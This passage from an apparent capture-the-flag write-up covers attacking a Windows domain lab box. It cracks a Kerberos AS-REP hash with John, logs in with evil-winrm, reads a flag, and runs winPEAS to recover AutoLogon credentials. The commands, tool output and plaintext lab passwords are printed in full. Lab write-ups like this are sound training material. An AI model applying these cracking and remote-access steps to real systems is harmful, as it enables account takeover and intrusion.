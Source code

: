 We crack that hash using John and the Rockyou dictionary getting fsmith
password.

    :::text
    john hash -w=tools/password_lists/rockyou.txt
    Warning: detected hash type "krb5asrep", but the string is also recognized as "krb5asrep-aes-opencl"
    Use the "--format=krb5asrep-aes-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICALBANK)
    1g 0:00:00:19 DONE (2020-02-17 15:33) 0.05235g/s 551780p/s 551780c/s 551780C/s Thines..Thehulk2008
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

We connect on the box with our fsmith account using
[evil-winrm](https://github.com/Hackplayers/evil-winrm). And get the user flag
on his desktop.

    :::text
    ruby evil-winrm.rb -u fsmith -i 10.10.10.175 -p 'Thestrokes23'

    Evil-WinRM shell v1.8

    Info: Establishing connection to remote endpoint

    *Evil-WinRM* PS C:\Users\FSmith\Documents> cat ../Desktop/user.txt
    1b5520b98d97cf17f24122a55baf70cf

# Getting root

We take a look at the other users on the box using `net user`.

    :::text
    *Evil-WinRM* PS C:\Users\FSmith\Documents> net user

    User accounts for \\

    -------------------------------------------------------------------------------
    Administrator            FSmith                   Guest
    HSmith                   krbtgt                   svc_loanmgr
    The command completed with one or more errors.


We upload
[winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)
from the Privilege Escalation Awesome Scripts SUITE and run it on the box.

It found some AutoLogon credetials for the account `svc_loanmgr`.

  :::text
  [+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
        DefaultDomainName             :  EGOTISTICALBANK
        DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
        DefaultPassword               :  Moneymakestheworldgoround!

